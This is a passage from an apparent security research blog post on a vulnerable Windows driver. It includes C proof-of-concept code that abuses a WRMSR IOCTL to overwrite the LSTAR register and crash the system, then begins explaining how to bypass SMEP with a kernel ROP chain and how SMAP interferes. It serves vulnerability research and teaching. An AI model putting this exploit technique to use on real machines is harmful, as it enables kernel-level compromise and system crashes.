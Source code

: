 ```c

	DEBUG(L"[*] Press ENTER to continue (OS will BSOD!)\r\n");
	getchar();

	DeviceIoControl(hDevice, IOCTL_WRMSR, &wrmsr, sizeof(wrmsr), buffer, sizeof(buffer), &bytesReturned, NULL);

	return TRUE;
}

int main(int argc, char* argv[]) {
	DWORD lstar_msr = 0xc0000082;
	
	if (!OpenDriverDevice()) {
		CloseDriverDevice();
		return 0;
	}

	WriteMSR(lstar_msr, 0xffffffffffffffff);

	CloseDriverDevice();
	return 0;
}
```
Examination within Windbg reveals that the LSTAR register has indeed been modified.  
![poc_windbg](https://idafchev.github.io/blog/assets/images/wrmsr/poc_wrmsr.png){: .align-center}  

# <a name="10_exploit_explanation"></a> 10. Exploit explanation  
Most examples and proof-of-concepts I found online ended at the previous step, but I wanted to take it a step further and actually understand how this vulnerability can be fully exploited in practice. Please check out the references I've included. Writing this several months after developing the exploit, I honestly don't recall which resource assisted me in understanding which part.  
  
Now that we've confirmed the ability to overwrite the LSTAR register, we can point it to a shellcode of our choosing. Unfortunately the shellcode will cause the OS to crash, due to the previously mentioned protections - KPTI, SMEP, SMAP and potentially KPP. Let's outline how to bypass them all.  

### SMEP  
The shellcode will exist in user-land. When the CPU jumps to LSTAR, it's in Ring 0 mode, causing the OS to crash due to SMEP. Bypassing SMEP can be achieved using ROP. A ROP chain can be created to modify the value of CR4 (specifically bits 20 and 21) to disable SMEP. Once disabled, the CPU can jump to our shellcode without crashing the system. The ROP chain should consist only of gadgets in the kernel.  

### SMAP  
But there's is still a problem. When the CPU jumps to the address of LSTAR, it's in supervisor mode, but execution context is still in user-mode and the stack the CPU uses is the user stack, which is in user-space. Therfore, even though the ROP chain will consist of kernel-space addresses, and the CPU is in Ring 0, the moment a ret instruction is executed and a return address is accessed, SMAP will cause a BSOD.  
![SMAP](https://idafchev.github.io/blog/assets/images/wrmsr/smap.png){: .align-center}  
